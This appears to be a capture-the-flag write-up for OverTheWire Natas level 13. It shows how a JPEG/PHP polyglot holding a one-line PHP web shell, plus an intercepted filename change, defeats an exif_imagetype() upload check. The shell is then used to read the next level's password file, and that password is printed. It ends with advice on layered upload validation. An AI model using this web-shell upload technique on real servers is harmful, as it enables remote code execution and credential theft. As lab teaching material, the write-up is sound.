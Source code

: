 # 🕵️ Natas - Level 13 (🇺🇸 English)  
*Date: 2025-06-04*  
*Difficulty: Medium*  
*Category: Web*  

---

## 🎯 Objective

The goal of this challenge is to bypass a file type validation based on "magic bytes" (`exif_imagetype()`) and, combining with the file name manipulation from the previous level, achieve Remote Code Execution (RCE) to obtain the password for the next level (Natas14).  

---

## 🔎 Analysis

- The Natas12 filename manipulation vulnerability persists: the name and extension of the file to be saved are set by a hidden field `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`. This allows an attacker, by intercepting the HTTP request (e.g., via Burp Suite), to change the extension from .jpg to .php.  

- New Security Check: The PHP script now includes a `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`.   
- The exif_imagetype() function reads the first few bytes of the file (known as the "magic bytes" or "signature") to determine if it corresponds to a valid image format (JPEG, PNG, GIF, etc.).   
- If the file does not have a recognized image signature, exif_imagetype() returns false, causing the upload to be rejected with the message "File is not an image".   
- This prevents the direct upload of a pure PHP file, since it does not have image magic bytes.  
- To bypass the exif_imagetype() check, we need to create a polyglot file: a file that is valid both as a JPEG image and as a PHP script. The key to this is to insert the magic bytes of an image file at the top of our PHP code.   
- The exif_imagetype() image parser will read the magic bytes at the beginning of the file and recognize it as an image.   
- The PHP parser, when executing the file (once its extension has been manipulated to .php), will ignore the initial magic bytes (which are not valid PHP code) and start interpreting PHP code from the <?php tag.
  
---

## 🧱 Steps

1. Source Code Analysis: Confirm the persistence of the `filename` vulnerability (from Natas12) and identify the new `exif_imagetype()` validation.   
2. Prepare the Polyglot Payload: Create a file that contains JPEG magic bytes at the beginning, followed by our PHP shell.   
  - We use the terminal to create the file, ensuring that the literal hexadecimal bytes and PHP code are inserted correctly.   
  - Our PHP payload is `<?php system($_GET["cmd"]); ?>`.   
  - The JPEG magic bytes are `\xFF\xD8\xFF\xE0` (for JFIF JPEG).  
3. Create the Malicious File via Terminal:   
```bash
printf '\xFF\xD8\xFF\xE0' > bypass.php 
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
- The first printf creates the bypass.php file with the JPEG magic bytes.   
- The second printf (using `>>`) appends the PHP payload right after the magic bytes, without overwriting.  
4. Start Upload: In the browser, select the bypass.php file (or whatever name you gave the polyglot file) and prepare to upload.  
5. Intercept and Manipulate Request: Use an intercepting proxy tool (like Burp Suite) to capture the upload request.  
6. Change Extension: In the intercepted request, locate the `filename` parameter (which will come with a value like [random_name].jpg from the hidden field) and change its extension to `.php` (e.g. `[random_name].php`).  
7. Resend Request: Forward the modified request to the server. The server will accept the file, since the magic bytes satisfy `exif_imagetype()`.  
8. Access the Web Shell: The server will return the path to the file (e.g. `upload/bldzmc4xs4.php`). Navigate to this URL.  
9. Execute Commands (RCE): The PHP shell will be interpreted. Add the `cmd` parameter to the URL to execute commands.   
  - Test: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (will return `/var/www/natas/natas12/upload`).   
  - Get Natas14's password: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  
---

## 🔑 Password Found

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusion

Natas13’s exploit succeeded by combining filename manipulation (persistent from the previous level) with a polyglot (JPEG + PHP) file creation technique. Inserting image “magic bytes” into the header of our PHP shell allowed the file to pass the `exif_imagetype()` check, while its manipulated extension (`.php`) ensured that it was interpreted by the PHP server, resulting in Remote Code Execution (RCE). This challenge demonstrates the importance of robust, multi-layered upload validations that do not rely solely on magic bytes or simple extensions.  

---

## 🧪 Commands Used

- Creating a polyglot file `bypass.php` in the terminal:  
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Get Natas14 password:   
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
```

---

## 🧠 Observations

- Content-Type Validation: Relying solely on `exif_imagetype()` is not enough. It is vital to check not only the magic bytes, but also perform deeper validation of the file content (e.g. using libraries that actually parse the image structure and check its integrity).   
- Layered Security: Upload validations should be layered: MIME type (checked via `Content-Type`), extension (validated by whitelist), magic bytes, and ideally image content verification by a robust library (to avoid polyglots).   
- Upload Isolation: Files uploaded by users should be stored in a directory that does not allow scripting and, if possible, served via a different domain or CDN.   
- Principle of Least Privilege: Ensure that the user under which the web server runs has the minimum permissions required, limiting the impact of an RCE.  

---

<p align="center"> <a href="../Natas12/Readme.md">⬅️ Previous</a> • <a href="../Natas14/Readme.md">Next ➡️</a> </p>
